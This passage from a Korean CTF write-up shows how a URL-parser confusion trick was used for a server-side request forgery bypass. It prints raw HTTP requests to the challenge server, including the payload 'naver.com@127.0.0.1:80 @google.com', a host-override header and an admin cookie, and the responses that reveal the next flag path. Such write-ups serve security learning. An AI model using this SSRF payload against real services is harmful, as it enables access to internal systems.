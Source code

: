 나는 개인적으로 2번의 방법 보다는 1번의 방법을 선택했다. 

그 이유는 서버에 설정해서 요청 날리는 것이 귀찮아서… (서버 포트 열어주고 코딩하기 귀찮아서 하핳…)

- 참고로 아래와 같은 우회 방법은 [BlackHat](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) 발표에서 Orange Tsai님께서 발표하신바 있다.

```
[ Request ]
POST /index.phtml?fun_004ded7246=load HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: PHPSESSID=km8242du1i5ctdu87piomkf744; USER=admin; X-TOKEN=9cf35b150a5bcdd1fac0804ddab73d4fb9208d8d40500978d9d902ed7e63f9c4; 
X-HTTP-Host-Override: 127.0.0.1

url=http://naver.com@127.0.0.1:80 @google.com/internal_e0134cd5a917.php

[ Response ]
HTTP/1.1 200 OK
...

<main role="main" class="container">
<h1 class="mt-5">FLAG ?</h1>
<p class="lead">[+] <strong>NEXT FLAG LOCATION:</strong> ./internal_1d607d2c193b.php </p>
</main>
```

요기서 멘붕이 온것이 끝이 아니라는 사실이었다. 그러나 별수 없이, 다음 링크를 들어가보면 다음과 같은 메시지가 출력된다.

![Untitled](/assets/img/20220903_4/Untitled%206.png)

그리하여 POST요청을 만들어서 다음과 같이 요청을 날려보았다.

```
[ Request ]
POST /internal_1d607d2c193b.php HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

[ Response ]
HTTP/1.0 401 Unauthorized
WWW-Authenticate: Basic realm="Private"
...

Header `Authorization: Basic is not set, Sorry :)!
```
